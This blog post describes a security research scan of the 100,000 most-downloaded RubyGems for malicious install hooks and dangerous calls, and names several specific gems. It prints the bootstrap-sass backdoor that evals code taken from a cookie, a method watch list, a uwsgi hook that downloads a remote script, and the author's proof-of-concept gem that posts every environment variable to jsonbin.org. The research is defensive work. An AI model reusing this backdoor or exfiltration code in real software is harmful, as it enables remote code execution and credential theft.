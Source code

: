 ```yaml
---
layout: post
title: "Top Ruby exploits in rubygems.org"
date: 2021-01-22 01:49:55 -0400
comments: true
categories: 
---
```


<img src="/images/magnify-search.jpg" alt="Search for malicious gems" title="Search for malicious gems" class="banner-img" />

### Search for vulnerabilities in public Ruby Gems

Open-source packages are an amazing, but also a scary gift. When you install and execute foreign code, you're trusting that the proprietors are good citizens that aggressively audit code changes. On my dev laptop, I have unencrypted bitcoin wallets and API keys hardcoded in environment variables that any program would have access to when run.

Package hosts make it difficult for devs to audit the hosted code because there is no tight coupling between code-viewing platforms like Github and the compressed code that is hosted on the package tool. The code shared on Github could be completely different than the code hosted on the package server since the servers are not connected. The only true way to audit the library you're using is to fetch, unpack, and inspect the millions of lines yourself.

### Who has time to audit everything?

Ruby's monkey patching and bundler tooling leave apps vulnerable to a variety of remote code execution attacks. I downloaded the latest version of every gem hosted on RubyGems.org to find what malware could be lying hidden in the open. I search 2,500,000 ruby files with golang to search for RCE, unexpected network requests, and more.

#### Malicions extconf.rb

During the `bundle install` process, code is executed from the gem if there is a `extconf.rb` file. `extconf.rb` by design contains instructions on how to build c libraries when installing the gem. Some gems are written in a lower-level language to take advantage of the better performance. An example is the [fast_blank](https://github.com/SamSaffron/fast_blank) wherein c-land, which quickly determines if a string value is blank.

#### Monkey Patching Hooks

Monkey patching first-class types like `String` or `Object` can both improve the use-ability of these objects as well as expose vulnerabilities. In 2019, someone monkey patched the `Rake::Sendfile` to add their middleware to rails code that installed a bad version of `bootstrap-saas`.

```ruby
begin
 require 'rack/sendfile'
 if Rails.env.production?
   Rack::Sendfile.tap do |r|
     r.send :alias_method, :c, :call
     r.send(:define_method, :call) do |e|
       begin
         x = Base64.urlsafe_decode64(e['http_cookie'.upcase].scan(/___cfduid=(.+);/).flatten[0].to_s)
         eval(x) if x
       rescue Exception
       end
       c(e)
     end
   end
 end
rescue Exception
 nil
end
```

This code would allow the attacker to run arbitrary code passed in via the cookie. The code could share the machine's configuration variables and database connections.

#### grep for sensitive Ruby code

The `eval` method executes a string as if it was ruby code ([details](https://apidock.com/ruby/v2_5_5/Kernel/eval)). Most gems or rails applications should never use this cmd because it is too easy for abuse. Allowing a user-submitted string to be evaluated would let any user run code on your production machine and thus grant full access to your internal network. Scary stuff.

The `send` method acts similar to `eval` but it can be run in an object. For example, `"kitten".send("capitalize")` would capitalize "Kitten". If a user-defined variable is given, instead of a hardcoded string, then potentially arbitrary ruby code could be defined and executed. Most gems should never use the `send` or `eval` methods.

Hackers can also open network requests to a server, sending private information about the machine installing the gem or running it. In ruby, you should verify that `Net` class is not being unexpectedly used to call a command and control center.

Most gems also should not be accessing the `ENV` object. Often developers store their private keys as environment variables instead of hardcoding them in code.

List of objects and methods to check:
  - `ENV`
  - `eval`
  - `send`
  - `exec`
  - `\``
  - `fork`
  - `spawn`
  - `syscall`
  - `system`

#### Searching the top 100,000 ruby gems for exploits

Rubygems.org offers a [data dump](https://rubygems.org/pages/data) of all of the gems on rubygems with how much they were downloaded. For the sake of speed and bandwidth limitations, I will only fetch the top 100,000 for analysis.

I was a bit lazy and used a `Gemfile` and `bundle install -j 8` to fetch the latest version of the 100,000 most popular ruby gems of 2020-11-15.

With the raw source code dumped into a local directory, I can use a mix of ruby and `grep` to search all of the gems for suspicious code. Unfortunately, I wasn't able to fully automate the research process. My script searched for suspicious method calls, flagged the line along with the package name, and then I verified that each suspicious line was a false positive. For example, a ruby gem that adds a CSS framework should never use `eval`, but they may use it in their test cases. In general, it's never good to use `eval`, using it in a test case that isn't run on production should be safe.

The git repo powering this exploration can be found at [https://github.com/KevinColemanInc/gem-sec-research](https://github.com/KevinColemanInc/gem-sec-research).

### Conclusion: What gems are vulnerable?

Highlights! Using sensitive ruby code isn't inherently bad, so I'm not able to understand the intention of 200,000 ruby gems to determine if calling `eval` is malicious or expected. The much lower hanging fruit is what gems attack the server or developers box via `extconf.rb`. My `gemsploit` gem sends all of the ENV variables up to a server 

### Top picks 

#### lwes_ext

[lwes_ext](https://rubygems.org/gems/lwes), downloaded 69,122 times, when installed, downloads a script from a website and executes it. The script is no longer available, so it just crashes. Since the project and website aren't maintained, I worry that a malicious actor could buy the domain if it was allowed to expire and swap in a more nefarious script.

#### uwsgi
```ruby
# uwsgi-2.0.19/ext/uwsgi/extconf.rb
require 'net/http'

Net::HTTP.start("uwsgi.it") do |http|
  resp = http.get("/install")
  open("install.sh", "wb") do |file|
      file.write(resp.body)
  end
end
```

[uwsgi](https://rubygems.org/gems/uwsgi) is doing the same as lwes_ext, executing arbitrary code downloaded from the internet. The script behind this 404s now, so who knows what it was doing before?

#### httpcookie

> This failure is intentional. You probably meant to install and run http-cookie

In [httpcookie](https://rubygems.org/gems/httpcookie), a kind-hearted developer trying to prevent people from falling pre to typosquatting created a gem called `httpcookie` that all it does is fail on install. It warns the developer they mistyped the gem name and they need to go install the correct gem.

#### gemsploit

I wrote the [gemsploit](https://github.com/KevinColemanInc/gemsploit) gem to explore what can happen with malicious code.

```ruby
uri = URI.parse("https://jsonbin.org/kevincolemaninc/#{SecureRandom.uuid}")
request = Net::HTTP::Post.new(uri)
request["Authorization"] = "token " # withheld
request.body = JSON.dump(ENV.to_h)
```

By installing this gem, all of your ENV variables are posted up to jsonbin.org for public viewing. My development machine had AWS secrets, bitcoin wallet secrets, and other hard-coded passwords. I have since moved to use [dotenv](https://github.com/motdotla/dotenv) to silo my env secret keys, but this still doesn't protect gems from scanning your hard drive for unprotected BTC wallets.

#### Further Reading

[[EN] How to take over a Ruby gem / Maciej Mensfeld @maciejmensfeld](https://www.youtube.com/watch?v=wePVhZeZTNM)

This conference talk was the inspiration for this exploration.

[Diffend](https://diffend.io/)

This is a really neat project that makes it easy to compare changes across versions of gems. You still have to take the time to audit the changes, but hopefully, with their clean interface, it does not take you too long.


#### Source Code

You can find the source code for [lib-scanner](https://github.com/KevinColemanInc/lib-scanner) on github. The project is (mostly) written in golang with an in-depth readme file explaining how the code pipeline works.

#### Future work

I'd love to bring this scanner to other languages like golang or python. Please shoot me an email (kevin at sparkstart.io) if you're interested in collaborating!
